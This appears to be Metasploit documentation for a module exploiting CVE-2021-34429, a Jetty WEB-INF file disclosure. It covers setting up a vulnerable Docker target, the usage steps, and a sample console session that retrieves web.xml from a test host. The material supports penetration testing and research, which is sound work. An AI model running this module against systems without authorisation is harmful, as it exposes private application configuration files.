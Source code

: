 ## Vulnerable Application

Instructions to get the vulnerable application. If applicable, include links to the vulnerable install
files, as well as instructions on installing/configuring the environment if it is different than a
standard install. Much of this will come from the PR, and can be copy/pasted.

### CVE-2021-34429

Use the Docker image from [ColdFusionX](https://github.com/ColdFusionX/CVE-2021-34429) at
https://github.com/ColdFusionX/CVE-2021-34429/blob/main/docker-compose.yml

## Verification Steps

1. Install Jetty with an app that contains a `WEB-INF` folder
2. Start msfconsole
3. Do: `use auxiliary/gather/jetty_web_inf_disclosure`
4. Do: `run`
5. You should get the contents of a file

## Options

### FILE

The file in the `WEB-INF` folder to retrieve. Defaults to `web.xml`

## Scenarios

### Jetty 11.0.5 from Docker

```
resource (jetty.rb)> use auxiliary/gather/jetty_web_inf_disclosure
resource (jetty.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (jetty.rb)> set rport 8080
rport => 8080
resource (jetty.rb)> set verbose true
verbose => true
resource (jetty.rb)> run
[*] Running module against 1.1.1.1
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found version: 11.0.5
[+] 11.0.5 vulnerable to CVE-2021-34429
[!] The service is running, but could not be validated.
[+] File stored to /home/h00die/.msf4/loot/20211108134054_default_1.1.1.1_jetty.web.xml_813220.xml
[+] <!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >
<web-app>
<display-name>ColdFusionX - Web Application</display-name>
</web-app>
```